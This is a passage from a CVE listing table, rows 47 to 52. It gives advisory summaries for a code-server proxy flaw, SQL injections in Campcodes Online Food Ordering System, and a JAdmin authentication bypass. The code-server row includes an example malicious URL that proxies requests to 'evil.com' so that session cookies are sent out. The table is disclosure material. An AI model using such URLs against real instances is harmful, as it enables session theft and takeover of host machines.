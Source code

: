 | 47 | CVE-2025-47269 | 8.3  | HIGH | code-server runs VS Code on any machine anywhere through browser access. Prior to version 4.99.4, a maliciously crafted URL using the proxy subpath can result in the attacker gaining access to the session token. Failure to properly validate the port for a proxy request can result in proxying to an arbitrary domain. The malicious URL `https://<code-server>/proxy/test@evil.com/path` would be proxied to `test@evil.com/path` where the attacker could exfiltrate a user`s session token. Any user who runs code-server with the built-in proxy enabled and clicks on maliciously crafted links that go to their code-server instances with reference to /proxy. Normally this is used to proxy local ports, however the URL can reference the attacker`s domain instead, and the connection is then proxied to that domain, which will include sending cookies. With access to the session cookie, the attacker can then log into code-server and have full access to the machine hosting code-server as the user running code-server. This issue has been patched in version 4.99.4. | [1]https://github.com/coder/code-server/commit/47d6d3ada5aadef6d221f3d612401eb3dad9299e<br>[2]https://github.com/coder/code-server/releases/tag/v4.99.4<br>[3]https://github.com/coder/code-server/security/advisories/GHSA-p483-wpfp-42cj |
| 48 | CVE-2025-4489 | 7.3  | HIGH | A vulnerability was found in Campcodes Online Food Ordering System 1.0. It has been rated as critical. Affected by this issue is some unknown functionality of the file /routers/user-router.php. The manipulation of the argument t1_verified leads to sql injection. The attack may be launched remotely. The exploit has been disclosed to the public and may be used. | [1]https://github.com/wyl091256/CVE/issues/9<br>[2]https://vuldb.com/?ctiid.308204<br>[3]https://vuldb.com/?id.308204<br>[4]https://vuldb.com/?submit.566784<br>[5]https://www.campcodes.com/ |
| 49 | CVE-2025-4490 | 7.3  | HIGH | A vulnerability classified as critical has been found in Campcodes Online Food Ordering System 1.0. This affects an unknown part of the file /view-ticket-admin.php. The manipulation of the argument ID leads to sql injection. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. | [1]https://github.com/wyl091256/CVE/issues/10<br>[2]https://vuldb.com/?ctiid.308205<br>[3]https://vuldb.com/?id.308205<br>[4]https://vuldb.com/?submit.566785<br>[5]https://www.campcodes.com/ |
| 50 | CVE-2025-4491 | 7.3  | HIGH | A vulnerability classified as critical was found in Campcodes Online Food Ordering System 1.0. This vulnerability affects unknown code of the file /routers/ticket-status.php. The manipulation of the argument ticket_id leads to sql injection. The attack can be initiated remotely. The exploit has been disclosed to the public and may be used. | [1]https://github.com/wyl091256/CVE/issues/11<br>[2]https://vuldb.com/?ctiid.308206<br>[3]https://vuldb.com/?id.308206<br>[4]https://vuldb.com/?submit.566786<br>[5]https://www.campcodes.com/ |
| 51 | CVE-2025-4492 | 7.3  | HIGH | A vulnerability, which was classified as critical, has been found in Campcodes Online Food Ordering System 1.0. This issue affects some unknown processing of the file /routers/ticket-message.php. The manipulation of the argument ticket_id leads to sql injection. The attack may be initiated remotely. The exploit has been disclosed to the public and may be used. | [1]https://github.com/wyl091256/CVE/issues/12<br>[2]https://vuldb.com/?ctiid.308207<br>[3]https://vuldb.com/?id.308207<br>[4]https://vuldb.com/?submit.566787<br>[5]https://www.campcodes.com/ |
| 52 | CVE-2025-4494 | 7.3  | HIGH | A vulnerability, which was classified as critical, was found in JAdmin-JAVA JAdmin 1.0. Affected is the function toLogin of the file NoNeedLoginController.java of the component Admin Backend. The manipulation leads to improper authentication. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. | [1]https://github.com/JAdmin-JAVA/JAdmin/issues/1<br>[2]https://github.com/JAdmin-JAVA/JAdmin/issues/1#issue-3012501470<br>[3]https://vuldb.com/?ctiid.308208<br>[4]https://vuldb.com/?id.308208<br>[5]https://vuldb.com/?submit.566984 |
